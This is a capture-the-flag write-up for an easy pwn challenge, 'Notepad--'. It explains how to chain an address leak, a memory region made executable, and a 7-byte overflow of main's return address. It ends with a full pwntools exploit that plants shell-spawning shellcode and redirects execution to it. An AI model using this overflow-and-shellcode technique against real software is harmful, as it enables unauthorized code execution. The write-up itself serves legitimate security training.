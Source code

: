 ## Pwn:
#### Notepad-- `Easy` `100 pts`
In this challenge, I read the code and found that whatever we write in the notes is stored in some pre allocated space in the program's memory (not dynamically using the heap) and that whenever we call the get premium we get it's address printed which is very useful since memory addresses are randomized by aslr so that's one thing less to worry about.

And the best thing about the premium function is that it changes the memory region containing your notes to an executable memory region, allowing your processor to basically read memory stored there as an opcode.

So what I did was I just grabbed a shellcode (which is basically a sequence of opcodes that pop a shell) and stored it in the notes, then used the premium functionality to get the address leak and turn my stored shellcode into executable memory.

Finally, I found that when you ask to exit the program, it asks for a "final message" which is badly stored in memory and allows us to overflow main's return address by 7 bytes which is enough for us to jump to our leaked memory address.

So basically: store shellcode -> make it executable -> overwrite main return address to jump to our shellcode:
```python
#!/usr/bin/env python3
from pwn import *
context.log_level = 'error'
context.binary = elf = ELF('./chall')
context.terminal = ['alacritty', '-e']

if args.REMOTE:
    io = remote("13.234.240.113", 31013)
else:
    io = gdb.debug(elf.path, gdbscript=gs) if args.GDB else process()

def exploit():
    context.log_level = 'info'
    shellcode = asm(shellcraft.amd64.linux.sh())

    io.sendlineafter(b'>> ', b'1')
    io.sendline(shellcode) # store the shellcode

    # premium states gives us program address leak and turns our note into executable memory
    io.sendlineafter(b'>> ', b'3')
    io.recvuntil(b': ')
    elf.address = int(io.recvline(), 16) - elf.sym.notes

    # now we leave and overflow main's return address to jump to our now executable note containing our shellcode
    io.sendlineafter(b'>> ', b'4')
    io.sendlineafter(b': ', b'A'*40 + pack(elf.sym.notes))
    io.recv() # pass bye message
    io.interactive(prompt="shell> ")

if __name__ == "__main__":
    exploit()
```
